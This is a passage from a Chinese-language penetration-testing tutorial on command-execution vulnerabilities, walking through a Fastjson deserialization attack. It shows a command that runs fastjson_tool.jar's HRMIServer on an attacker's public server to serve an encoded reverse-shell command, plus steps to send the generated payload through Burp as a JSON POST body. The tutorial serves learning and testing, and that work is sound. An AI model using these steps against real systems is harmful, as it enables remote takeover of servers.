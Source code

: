    >    >
   >    > 2. 下滑选择此选项：![image-20210904094603491](../images/12_命令执行漏洞/image-20210904094603491.png)
   >    >
   >    > 3. 进行编码：
   >    >
   >    >    ![image-20210904094752616](../images/12_命令执行漏洞/image-20210904094752616.png)
   >
   > 2. 在公网服务器上保存fastjson_tool.jar的文件内执行指令：
   >
   >    `java -cp fastjson_tool.jar fastjson.HRMIServer 公网服务器地址 发送指令的端口 "编码后的反弹shell指令"`
   >
   >    ![image-20210904095906749](../images/12_命令执行漏洞/image-20210904095906749.png)
   >
   > 3. 复制生成的payload，在bp中使用即可
   >
   >    > 1. 将网站的访问请求修改为POST类型
   >    >
   >    > 2. 修改`Content-type`字段为`application/json`
   >    >
   >    > 3. 添加请求体数据为复制的payload，发送数据
   >    >